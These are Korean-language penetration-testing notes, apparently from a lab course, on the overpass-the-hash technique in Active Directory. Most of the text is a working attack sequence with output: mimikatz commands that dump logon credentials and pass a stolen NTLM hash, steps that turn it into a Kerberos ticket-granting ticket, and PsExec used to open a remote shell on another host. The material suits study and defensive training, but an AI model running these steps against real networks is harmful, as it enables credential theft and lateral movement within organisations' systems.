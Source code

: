 NTLM 해시를 “과도하게(over)” 남용하면, Kerberos의 full Ticket Granting Ticket (TGT) 를 획득할 수 있다.

> 이 경우에는 새로 만든 powershell 세션에서 **whoami** 명령을 치면 **jen 대신 jeff의 ID가 표시**된다. 이는 현재 프로세스의 토큰만 확인하고 가져온 **Kerberos 티켓은 검사하지 않는 whoami 유틸리티의 의도된 동작**임.

**mimikatz** (win, debug 권한 필요)
```powershell
privilege::debug
sekurlsa::logonpasswords
# 해시 탈취 후
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```

```powershell
# powershell로 돌아와서
# Kerberos 티켓 나열
klist
# 아직 안뜸: 대화형 로그인을 아직 수행하지 않았기 때문

# 네트워크 공유에 인증하여 TGT 생성
net use \\\\files04
#The command completed successfully.
klist
#Cached Tickets: (2)

##0>     Client: jen @ CORP.COM
#        **Server: krbtgt/CORP.COM @ CORP.COM**
# ...
#1>     Client: jen @ CORP.COM
#        **Server: cifs/files04 @ CORP.COM**
# ...
```

TGT 로 변환했으니, Kerberos 인증에 의존하는 모든 도구를 사용할 수 있다. PsExec을 사용하여 file04 쉘에 접근하는 예시:

**PsExec (win)**
```powershell
.\\PsExec.exe \\\\files04 cmd

#...
C:\\Windows\\system32>whoami
#corp\\jen

C:\\Windows\\system32>hostname
#FILES04
```